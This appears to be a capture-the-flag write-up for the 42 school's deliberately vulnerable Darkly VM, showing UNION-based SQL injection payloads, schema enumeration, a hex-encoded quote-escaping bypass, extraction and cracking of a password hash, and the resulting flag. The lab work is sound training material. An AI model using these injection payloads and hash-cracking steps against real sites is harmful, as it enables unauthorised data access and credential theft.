



# SQL Injection
<br>

## Target Information

* **Application:** Darkly (42 Cybersecurity Project)
* **Endpoint:** `http://darkly.fr/?page=member`
* **Host Resolution:** `darkly.fr` mapped to VM IP via `/etc/hosts`

---

<br>

# 1. Vulnerability Identification

Initial test on the `id` parameter:

```
'
```

**Result:**

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version...
```

<br>

## Analysis

* SQL error disclosure confirms:

  * Direct interaction with backend query
  * Use of MariaDB
* Indicates potential **SQL Injection vulnerability**

---

<br>

# 2. Parameter Type Analysis

Attempts using quotes failed:

```
' ORDER BY 1
```

This suggests input escaping is applied to quotes.

Testing without quotes:

```
1 ORDER BY 1
```

✔ Works successfully.



## Conclusion

The `id` parameter is handled as a **numeric value**, enabling numeric-based SQL injection.

---

# 3. Column Enumeration

Testing column count:

```
1 ORDER BY 1
1 ORDER BY 2
1 ORDER BY 3
```

Result:

```
Unknown column '3' in 'order clause'
```

## Conclusion

The original query contains **2 columns**.

---

<br>

# 4. Confirming UNION-Based SQL Injection

```
1 UNION SELECT database(), version()
```



**Response:**

* Database: `Member_Sql_Injection`
* Version: `5.5.64-MariaDB-1ubuntu0.14.04.1`

<br>

✔ UNION injection confirmed.

✔ Full control over SELECT statement achieved.

---

<br>

# 5. Database Enumeration

```
1 UNION SELECT table_name,2 
FROM information_schema.tables
```



**Discovered Tables:**

* users
* guestbook
* list_images
* vote_dbs
* db_default

---

<br>

# 6. Column Enumeration (Bypassing Quote Escaping)

Direct query using quotes failed:

```
WHERE table_name='users'
```

Error occurred due to automatic escaping.

<br>

## Hexadecimal Bypass Technique

In MariaDB, strings can be represented in hexadecimal format:

```
users → 0x7573657273
```

Final working query:

```
1 UNION SELECT column_name,2 
FROM information_schema.columns 
WHERE table_name=0x7573657273
```

<br>

**Result:**

```
ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: one
Surname : me

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: user_id
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: first_name
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: last_name
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: town
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: country
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: planet
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: Commentaire
Surname : 2

ID: 1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273 
First name: countersign
Surname : 2
```

<br>

**Columns Identified:**

* user_id
* first_name
* last_name
* town
* country
* planet
* Commentaire
* countersign

---

<br>

# 7. Data Extraction

Relevant record:

```
user_id:      5
First Name:   Flag
Last Name:    GetThe
Commentaire:  Decrypt this password -> then lower all the char. Sh256 on it and it's good!
countersign:  5ff9d0165b4f92b14994e5c685cdce28
```

---

<br>

# 8. Hash Analysis

According to Hashes.com, this hash is likely an MD5 value:
```
5ff9d0165b4f92b14994e5c685cdce28 - Possible algorithms: MD5
```

<br>

Initial attempt with John the Ripper:
```
┌──(kali㉿kali)-[~]
└─$ echo "5ff9d0165b4f92b14994e5c685cdce28" > hash.txt               

┌──(kali㉿kali)-[~]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2026-03-03 11:39) 0g/s 14940Kp/s 14940Kc/s 14940KC/s  fuckyooh21..*7¡Vamos!
Session completed. 

┌──(kali㉿kali)-[~]
└─$ john --show hash.txt                                                      
0 password hashes cracked, 2 left
```

Result: Not cracked.

---

<br>

# 9. Hash Resolution

Using crackstation.net we recovered the original value:

```
5ff9d0165b4f92b14994e5c685cdce28 → FortyTwo
```

Original plaintext password:

```
FortyTwo
```

---

<br>

# 10. Applying Challenge Instructions

Instruction:

> Decrypt this password → then lower all the char → Sh256 on it

<br>

### Step 1 – Convert to lowercase

```
fortytwo
```

### Step 2 – Generate SHA-256

```
echo -n "fortytwo" | sha256sum
```

**Result:**

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

---

# 🎉 Flag (1/14)

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
